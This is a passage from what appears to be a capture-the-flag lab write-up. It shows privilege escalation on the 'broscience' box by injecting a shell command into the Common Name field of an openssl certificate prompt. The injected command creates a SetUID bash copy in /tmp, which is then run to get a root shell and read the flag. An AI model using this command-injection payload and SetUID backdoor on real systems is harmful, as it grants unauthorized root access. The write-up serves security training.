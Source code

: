 ```
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)                    
Email Address []:

```

My payload will copy `bash` into `/tmp` and set it as SetUID to run as root (I originally tried `/dev/shm`, but it is mounted `nosuid`.

After two minutes, there’s a SetUID binary in `/tmp`:

```

bill@broscience:~$ ls -l /tmp/0xdf
-rwsrwxrwx 1 root root 1234376 Mar 31 09:22 /tmp/0xdf

```

I’ll run that with `-p` to [not drop privs](/2022/05/31/setuid-rabbithole.html) and get a shell as root:

```

bill@broscience:~$ /tmp/0xdf -p
0xdf-5.1#

```

And read the flag:

```

0xdf-5.1# cat root.txt
e810aba4************************

```